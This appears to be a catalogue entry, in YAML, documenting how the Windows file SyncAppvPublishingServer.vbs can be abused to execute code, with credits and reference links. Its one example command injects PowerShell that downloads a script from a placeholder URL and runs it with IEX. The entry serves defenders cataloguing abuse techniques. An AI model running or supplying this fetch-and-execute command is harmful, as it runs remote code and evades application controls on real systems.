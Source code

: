 ```yaml
---
name: syncappvpublishingserver.vbs
description: Refresh operation for Application Virtualization (App-V) publishing
functions:
  execute:
    - description: Inject PowerShell script code with the provided arguments
      code: SyncAppvPublishingServer.vbs "n;((New-Object Net.WebClient).DownloadString('http://some.url/script.ps1') | IEX"
resources: 
    - resource: https://twitter.com/monoxgas/status/895045566090010624
    - resource: https://twitter.com/subTee/status/855738126882316288
    - resource: https://docs.microsoft.com/en-us/powershell/module/appvclient/sync-appvpublishingserver?view=win10-ps
fullpath: 
    - path: C:\Windows\System32\SyncAppvPublishingServer.vbs
notes: Thanks to Nick Landers - @monoxgas, Casey Smith - @subTee
---
```

